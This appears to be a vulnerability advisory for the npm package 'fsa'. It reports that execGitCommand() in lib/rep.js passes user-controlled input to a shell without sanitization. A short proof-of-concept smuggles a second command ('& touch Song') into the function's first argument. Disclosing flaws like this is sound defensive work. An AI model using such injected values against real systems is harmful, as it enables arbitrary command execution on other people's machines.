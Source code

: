 # Overview
`fsa` is a File system auditor, this package are vulnerable to Command Injection.
\
The first argument of `execGitCommand()`, located within `lib/rep.js#63` can be controlled by users without any sanitization to inject arbitrary commands.

# Proof of Concept
```
var root = require("fsa");
var attack_code = "& touch Song";
var dir = "./";
var options= {};
root.rep.execGitCommand(attack_code,dir,options,function(){});
```